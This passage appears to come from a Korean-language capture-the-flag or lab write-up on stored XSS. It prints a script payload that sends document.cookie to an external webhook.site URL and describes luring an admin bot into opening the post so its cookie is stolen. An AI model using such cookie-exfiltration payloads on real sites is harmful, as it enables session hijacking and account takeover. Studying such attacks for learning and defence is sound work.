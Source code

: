 ```html
<script>new Image().src='https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie='+document.cookie</script>
```

> **게시물 클릭 후 Webhook으로 쿠키 전송**

![xss1 쿠키 탈취](./screenshots/xss1_cookie.png)

- 이제 관리자가 해당 게시글을 열람하면 삽입된 JavaScript가 실행되고, `document.cookie` 값을 포함한 요청이 webhook 서버로 전송된다.

- 관리자 봇이 스크립트가 들어간 URL을 클릭하게 만들어, 쿠키를 외부로 보내도록 하겠다.

![xss1 관리자 봇 접속 완료](./screenshots/xss1_admin_access.png)

- 관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도하였고, 이후 Webhook에서 쿠키가 정상적으로 수신되었는지 확인한다.
